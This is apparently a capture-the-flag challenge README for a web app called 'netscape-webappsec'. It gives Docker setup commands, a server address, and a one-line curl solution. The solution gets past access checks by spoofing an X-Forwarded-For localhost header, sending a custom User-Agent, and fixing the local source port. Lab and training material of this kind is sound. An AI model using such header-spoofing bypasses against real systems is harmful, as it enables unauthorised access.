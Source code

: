 #### Setup
 * docker build . -t netscape-webappsec:latest
 * docker run -v /opt/netscape/source:/var/www/html -p 9367:80 -d --name netscape-webappsec netscape-webappsec:latest

#### Goals
 * Try to find the flag

#### Server Address
 * http://34.123.144.218:9367/

#### Solution
```
curl http://34.123.144.218/ \
    --header 'X-Forwarded-For:127.0.0.1' \
    --header 'User-Agent:Netscape-Web-Broswer' \
    --local-port 23333
```
